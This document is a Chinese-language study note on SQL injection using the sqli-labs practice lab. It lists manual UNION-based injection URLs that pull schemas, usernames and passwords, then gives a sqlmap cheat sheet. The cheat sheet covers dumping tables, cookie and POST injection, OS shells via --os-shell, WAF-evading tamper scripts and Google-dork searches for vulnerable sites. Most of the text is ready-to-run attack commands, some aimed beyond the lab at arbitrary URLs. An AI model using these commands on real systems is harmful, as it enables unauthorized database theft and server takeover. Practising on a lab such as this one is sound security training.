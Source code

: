 # 2019.07.12记录

[TOC]

## 使用sqli-lab练习sql注入

### Less-1注入

1. 注入查询数据库名：
http://192.168.202.148:85/Less-1/?id=861' union select 1,(select group_concat(schema_name) from information_schema.schemata),3 --+

2. 注入查询表名：
http://192.168.202.148:85/Less-1/?id=861' union select 1,(select group_concat(schema_name) from information_schema.schemata),(select group_concat(table_name) from information_schema.tables where table_schema='security')--+

3. 注入查询字段名：
http://192.168.202.148:85/Less-1/?id=861' union select 1,(select group_concat(schema_name) from information_schema.schemata),(select group_concat(column_name) from information_schema.columns where table_name='users')--+

4. 注入查询用户名：
http://192.168.202.148:85/Less-1/?id=861' union select 1,(select group_concat(schema_name) from information_schema.schemata),(select group_concat(username) from security.users)--+

5. 注入查询密码：
http://192.168.202.148:85/Less-1/?id=861' union select 1,(select group_concat(schema_name) from information_schema.schemata),(select group_concat(password) from security.users)--+

## 使用SqlMap注入：

### 安装sqlmap：
1. 使用git获取sqlmap：[SqlMap](https://github.com/sqlmapproject/sqlmap):
2. 使用python获取sqlmap：pip install sqlmap

### sqlmap注入：
1. 查数据库：
Python sqlmap.py -u "http://10.10.10.1/sqli-labs-master/Less-1/?id=1"  --dbs

Python sqlmap.py -u "http://10.10.10.1/sqli-labs-master/Less-1/?id=1" --current-db

2. 查表：
Python sqlmap.py -u "http://10.10.10.1/sqli-labs-master/Less-1/?id=1" -D security --tables

3. 查字段：
Python sqlmap.py -u "http://10.10.10.1/sqli-labs-master/Less-1/?id=1" -D security -T users --columns

(-D dbname指定数据库名称、-T tablename：指定某数据表的名称、--columns：列出指定表上的所有列)。

4. 查数据：
Python sqlmap.py -u "http://10.10.10.1/sqli-labs-master/Less-1/?id=1" -D security -T users -C id,username,password --dump 

(-D dbname:指定数据库名称、-T tablename:指定某数据表名称、-C Cnmme:指定列名、--dump:导出列里面的字段)。

5. 查询所有：
Python sqlmap.py -u "http://10.10.10.1/sqli-labs-master/Less-1/?id=1" --dump-all


### [SQLMAP实战操作](http://www.secist.com/archives/3079.html)：
1. ACCESS数据库：
sqlmap.py -u “url” /*-u为常规扫描参数*/

sqlmap.py -u “url” –tables /*–tables拆数据库表*/

sqlmap.py -u “url” –columns -T “要拆的表名”/*列出指定表名*/

sqlmap.py -u “url” –dump -T “要拆的表名”-C “要拆的字段名” /*–dump为拆解字段名会保存在sqlmap/output目录下*/

2. MYSQL数据库：
sqlmap.py -u “url” /*扫描注入点*/

sqlmap.py -u “url” –dbs /*列出所有数据库*/

sqlmap.py -u “url” –current-db /*列出当前数据库*/

sqlmap.py -u “url” –current-user /*列出当前用户*/

sqlmap.py -u “url” –tables -D “当前数据库名” /*拆解当前数据库表*/

sqlmap.py -u “url” –columns -T “要拆得的表名” -D “当前数据库名” /*拆解指定表字段名*/

sqlmap.py -u “url” –dump -C “字段名” -T “表名” -D “当前数据库”

3. SQLSERVER数据库：
sqlmap.py -u “url” /*扫描注入点*/

sqlmap.py -u “url” –dbs /*列出所有数据库*/

sqlmap.py -u “url” –current-db /*列出当前数据库*/

sqlmap.py -u “url” –current-user /*列出当前用户*/

sqlmap.py -u “url” –tables -D “当前数据库名” /*拆解当前数据库表*/

sqlmap.py -u “url” –columns -T “要拆得的表名” -D “当前数据库名” /*拆解指定表字段名*/

sqlmap.py -u “url” –dump -C “字段名” -T “表名” -D “当前数据库”

SQLSERVER操作和MYSQL是一样的！！！常见的几种数据库！！！


4. COOKIE注入：
sqlmap.py -u “www.xxx.com/asp或者www.xxx.com/php”?–cookie “参数名如id=1” –level 2/*level为提升权限*/

什么数据库就按照上面的数据库加上cookie语句拆解就行了

5. POST注入：
抓包保存到SQLMAP目录下.txt的文件然后输入指令sqlmap.py -r xxx.txt /*xxx.txt为保存包文件的文件名”

sqlmap.py -u “url” –data “POST参数”


6. 执行shell命令：
sqlmap.py -u “url” –os-cmd=”net user” /*执行net user命令*/

sqlmap.py -u “url” –os-shell /*系统交互的shell*/


7. 注入HTTP请求 :
sqlmap.py -r xxx.txt –dbs /*xxx.txt内容为HTTP请求*/


8. 绕过WAF的tamper插件使用：
sqlmap.py -u “url” –tamper “xxx.py”
sqlmap.py -u “url” –tamper=”xxx.py”

关于tamper脚本详细说明在本博客中有，链接为：http://www.matsec.cn/?id=5


9. 将注入语句插入到指定位置：
sqlmap.py -u “url(www.xxx.com/id/1*.html)”?–dbs

有些网站是采用伪静态的页面使用SQLMAP的普通注入是不行的，所以SQLMAP提供了”*”参数将SQL语句插入指定位置，一般用于伪静态注入。
在使用HTTP注入时使用-r参数也可以直接在文本中添加*号


10. 延时注入：
sqlmap –dbs -u “url” –delay 0.5 /*延时0.5秒*/

sqlmap –dbs -u “url” –safe-freq /*请求2次*/


11. 使用谷歌语法搜索注入(Google hack)：
sqlmap.py -g “inurl:asp?id=1” /*””内为搜索语法，如：inurl,intitle,site,filetype等等


### 参考
1. [SQLMAP简单使用](https://jingyan.baidu.com/article/eae078276530621fec5485b9.html)
2. [SQL Map基础操作学习](https://www.jianshu.com/p/17509d0a1ba3)



